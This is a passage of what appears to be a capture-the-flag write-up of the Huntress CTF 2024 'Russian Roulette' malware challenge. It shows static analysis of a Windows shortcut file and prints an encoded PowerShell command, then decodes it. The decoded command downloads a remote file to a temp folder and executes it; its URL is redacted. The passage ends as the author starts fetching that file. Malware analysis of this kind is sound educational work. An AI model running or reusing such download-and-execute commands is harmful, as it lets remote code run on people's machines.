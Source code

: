 ```yaml
---
title:          "Russian Roulette (Huntress CTF 2024)"
pubDate:        2024-11-27
description:    CTF ComSec CyberSecurity Write-up Huntress Huntress-CTF-2024
hideListing: true
---
```


> Author: @JohnHammond
>
> My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
>
> WARNING: Please examine this challenge inside of a virtual machine for your own security. Upon invocation there is a real possibility that your VM may crash.
>
> NOTE: Archive password is russian_roulette

This was fun. It reminded me of the days I spent binge watching John Hammond's [malware analysis videos](https://www.youtube.com/playlist?list=PL1H1sBF1VAKWMn_3QPddayIypbbITTGZv). The static analysis was very very lengthy, but very very fun and rewarding!

## step 1: lnk file
Running on linux, I could not open the lnk file. I ran `strings` on the lnk file, and got nothing. Then I realised windows uses long string encodings, or 16-bit UTF little endian. When viewing with `hexdump -C` you can see the strings broken with a dot in between - since the hexdump is showing 8-bit by 8-bit. Running `strings -el` for long encoding yields this:

```
powershell.exe
?......WindowsSystem32WindowsPowerShellv1.0powershell.exe
C:Windowssystem32
-e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```

So:

1. Powershell is being invoked
2. There is a base64 encoded string

Decoding the base64 string gives (URL redacted):

```
iwr is.gd/<REDACTED> -o $env:TMP/.cmd;& $env:TMP/.cmd
```

There's a few things happening:

1. `iwr` is the Powershell 'curl', invoking a web request from the URL `is.gd/<REDACTED>`
2. It is saved it into a temporary `cmd` file.
3. This CMD file is then executed (with the `&` ampersand shorthand alias).

## step 2: getting the remote file
So we found there is a remote file being fetched. I try to `curl` it but there is a HTTP302 error. I could have just enabled the redirections flag in curl, but I got lazy and did what any sane person would do - just paste the URL into my web browser.
